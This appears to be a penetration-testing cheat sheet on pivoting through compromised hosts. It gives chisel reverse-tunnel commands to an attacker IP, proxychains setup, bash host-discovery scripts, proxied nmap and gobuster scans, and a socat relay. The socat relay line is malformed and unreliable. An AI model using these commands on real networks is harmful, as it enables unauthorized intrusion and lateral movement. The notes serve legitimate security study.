 # Pivoting




## Ligolo
- <https://github.com/nicocha30/ligolo-ng>
- <https://www.youtube.com/watch?v=qou7shRlX_s>





## SSHuttle
- <https://www.youtube.com/watch?v=1BLAeXOQOl4>







## chisel
- <https://github.com/jpillora/chisel>

Note: depending on the environment, the latest version may not work.

```
# listen from attacker machine
chisel server --reverse -p [PORT NUMBER]

# from victim machine 1
chisel client [ATTACKER IP]:[PORT NUMBER] R:socks


```



### Proxychains
- dynamic_chain: Uses proxies in the order they appear in the list. All proxies in the chain must be available.
- random_chain: Chooses a random proxy from the list for each connection.
- static_chain: Uses proxies in the exact order they are listed.


unset `strict_chain`` and set `dynamic_chain` in `/etc/proxychains.conf`
at the end of proxychains.conf add `socks5 127.0.0.1 [tunnel PORT]`
Note: Tunnel port is 1080 by default
also in the firefox:
- manual proxy configuration > Sock Host: 127.0.0.1 Port: [tunnel PORT]
or
- set foxy proxy
or
- launch it using `proxychains -q firefox`	









## Enumeration

### see active hosts pwned machines
```bash

hostname -I


# script 1
#!/bin/bash
for i in {1..255}; do
        timeout 1 bash -c "ping -c 1 20.20.20.$i" >/dev/null
        if [ $? -eq 0 ]; then
                echo "El host 20.20.20.$i está activo"
        fi
done


# script 2 (in case ping is not installed)
#!/bin/bash

for host in $(seq 1 254); do
	timeout 1 bash -c "echo '' > /dev/tcp/30.30.30.$host/80 &> /dev/null" &&
	echo "30.30.30.$host";
done; wait
	
```

### nmap
```

proxychains nmap -sn -n x.x.x.0/24 
sudo proxychains -q nmap -p [PORT NUMBER] -sCVT -Pn -n [IP]	
proxychains nmap -sCVT 20.20.20.0/24 2>/dev/null
```



### gobuster
```
gobuster dir -u http://20.20.20.3 \
	-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
	-x php,doc,html,txt \
	--proxy socks5://127.0.0.1:1080
```










## Socat




Scenario: this machine(n2) is the pivot and want to redirect the chisel client to the attacker chisel server listening on port 1234 on machine(n1)
```
# on machine n3
chisel client [IP machine n2]:1111 R:1111:socks
# on machine n2
socat TCP-LISTEN:1111,fork TCP:1111:1234
# on machine n1
echo -e "socks5 127.0.0.1 1111" | sudo tee -a /etc/proxychains4.conf
```
